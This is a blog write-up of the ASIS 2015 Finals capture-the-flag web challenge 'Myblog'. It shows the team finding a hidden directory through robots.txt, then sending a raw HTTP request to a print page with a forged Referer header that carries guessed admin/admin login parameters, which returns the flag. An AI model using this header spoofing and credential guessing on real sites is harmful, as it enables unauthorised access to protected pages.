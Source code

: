```yaml
---
layout: post
title: "ASIS 2015 Finals: Myblog (web150)"
modified: 2015-10-15
tags: asis asis2015finals web
---
```


*This challenge was solved by and the write up was written by one of my teammates, nguyen*

<http://myblog.asis-ctf.ir:8088/robots.txt>
{% highlight text %}
User-agent: *
Disallow: /myblog_private_dir3ct0ry
{% endhighlight %}

From printing feature you can see the page by sending the correct referer header.
Referer: <http://myblog.asis-ctf.ir:8088/myblog_private_dir3ct0ry/>

{% highlight http %}
GET /printpage.php?id=2417648298 HTTP/1.1
Host: myblog.asis-ctf.ir:8088
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:41.0) Gecko/20100101 Firefox/41.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://myblog.asis-ctf.ir:8088/myblog_private_dir3ct0ry/?username=admin&password=admin
Connection: keep-alive
{% endhighlight %}

After some combinations of commons params name I decided to send them all

Referer: http://myblog.asis-ctf.ir:8088/myblog_private_dir3ct0ry/?username=admin&password=admin&login=admin&user=admin

And I got this pdf has flag:
{% highlight text %}
ASIS{9c846eab5200c267cb593437780caa4d}
{% endhighlight %}